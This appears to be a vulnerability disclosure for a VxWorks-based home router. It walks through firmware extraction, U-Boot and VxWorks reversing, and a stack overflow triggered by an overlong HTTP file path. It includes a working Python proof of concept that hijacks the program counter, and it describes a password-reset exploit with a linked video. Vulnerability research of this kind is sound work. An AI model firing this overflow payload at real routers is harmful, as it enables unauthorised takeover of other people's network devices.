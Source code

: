 ### Analysis

Use binwalk to analyze the firmware.
```
$ binwalk ./MX25L8005_20230813_224125.BIN
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
13664         0x3560          U-Boot version string, "U-Boot 1.1.4 (Aug 28 2014 - 18:04:52)"
13712         0x3590          CRC32 polynomial table, big endian
14996         [0x3A94]          uImage header, header size: 64 bytes, header CRC: 0xEBE5C5A2, created: invalid timestamp, image size: [37958] bytes, Data Address: 0x80010000, Entry Point: [0x80010000], data CRC: 0x9BE8162C, OS: Linux, CPU: MIPS, image type: Firmware Image, compression type: lzma, image name: "u-boot image"
15060         0x3AD4          LZMA compressed data, properties: 0x5D, dictionary size: 8388608 bytes, uncompressed size: 100568 bytes
61440         0xF000          IMG0 (VxWorks) header, size: 794144
61568         0xF080          Wind River management filesystem, compressed, 165 files
69532         0x10F9C         LZMA compressed data, properties: 0x5A, dictionary size: 8388608 bytes, uncompressed size: 10345 bytes
...
```
We can see that there is a uimage with a header at 0x3A94, a uImage (uboot image) of size 37958, and a loaded address of 0x80010000, and processor architecture mips (big endian). So we dump the uboot and decompress it.
```
$ dd if=MX25L8005_20230813_224125.BIN of=uboot.bin.lzma $ $ bs=1 skip=$((0x3A94 + 64)) count=37958
$ lzma -d ./uboot.bin.lzma
```

Using IDA to analyze uboot.bin
```
a. 
  IDA -> mips big endian
b.
  load address = 0x80010000
  rom address = 0x80010000
c.
  IDA -> Options -> General -> Analysis -> Processor specific analysis options -> $gp value = 0x800282D0
d.
  import idc
  for ea in range(0x800282D0, 0x800288D7, 4):
    idc.del_items(ea)
    idc.create_dword(ea)
``` 
![](./img/1.png)
Reverse uboot.bin to analyze the location of the vxwork firmware.
![](./img/2.png)
Then dump the vxwork firmware.
```
$ dd if=MX25L8005_20230813_224125.BIN of=vxworks.bin.lzma bs=1 skip=$((0x4a680)) count=$((0x8671d))
$ lzma -d ./vxworks.bin.lzma
```
Reverse and analyze vxworks.bin then dig for vulnerabilities.


### Bug

The reason for the vulnerability is that when going to the file system to fetch a file, an overflow can occur when the file path is too long. The overflow overwrites the PC value.

Proof of concept
```
import socket
import struct

from socket import htonl, htons

PORT = 80
IP   = "192.168.1.1"
p32  = lambda n   : struct.pack('>I', n)

io = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
io.connect((IP, PORT))
request = b'' \
+ b'GET /login/' + b'A'*0x109 + p32(0x12345678) + b'/arc.gif HTTP/1.1\r\n' \
+ b'Host: 192.168.1.1\r\n' \
+ b'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36\r\n' \
+ b'\r\n'
io.send(request)
io.recv(4096)
io.close()
```

Running this Poc, the router Crash and is hijacked to 0x12345678. this suggests that the excessively long file path triggered a stack overflow.

![](./img/3.png)


### Attack

Construct a exploitation script that changes the value of the password in memory to admin (the default), triggering the router to reset the password.


https://github.com/Giles-one/FW300RouterCrack/assets/71769243/5f8e8165-ef9a-4f62-b566-514864aa2543

[Attack vedio](./attack.mp4)
